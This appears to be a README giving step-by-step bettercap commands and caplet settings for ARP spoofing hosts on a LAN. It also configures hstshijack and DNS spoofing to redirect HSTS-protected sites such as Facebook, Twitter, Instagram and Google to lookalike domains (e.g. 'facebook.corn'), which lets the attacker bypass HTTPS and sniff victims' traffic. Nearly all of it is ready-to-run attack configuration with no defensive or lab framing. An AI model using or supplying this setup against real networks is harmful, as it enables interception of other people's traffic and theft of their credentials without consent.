 # ARPSppofer-w-bettercap

## Prerequisutes
1. Make sure you have namp/netdiscover installed (could also use nmap for host scanning).
2. Bettercap should be installed as well.

## Usage
1. Find some hosts to spoof within your LAN.
   1. `bettercap -iface <interface>`
   2. `net.probe on`
   3. `net.show`
   4. Pick a client and exit bettercap.
   5. __Note: Can also use netdiscover or nmap for host scanning.__
2. Create/Edit your spoof caplet (spoof.caplet)
   1. `set arp.spoof.fullplex true`  : Capture both incoming/outgoing traffic. 
   2. `set arp.spoof.targets <target ip/mac>` : Comma-separated list of IPs/MACs to spoof.
   3. `set net.sniff.local true` :  Sniff local (attackbox) traffic as well - needed for bypassing HTTPS.
3. Edit hstshijack config file to bypass specific sites configured with HSTS.
   1. `nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap `
   2. Targets and replacements could look like this… (customize to your liking)
      1. 
    `
    set hstshijack.targets         twitter.com,*.twitter.com,facebook.com,*.facebook.com,instagram.com,*.instagram.com,google.com,*.google.com, gstatic.com, *.gstatic.com
    set hstshijack.replacements    twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
   3. dns.spoof.domains could look like this... (customize to your liking)
      1. 
    `
    dns.spoof.domains
    set dns.spoof.domains  twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
4. Start bettercap with customized caplet.
   1. `bettercap -iface <interface> -caplet <capletfile>`
   2. Example: `bettercap -iface eth0 -caplet spoof.caplet`
5. Enable/Verify hstshijack caplet is enabled.
   1. `hstshijack/hstshijack`
   2. `caplets.show`







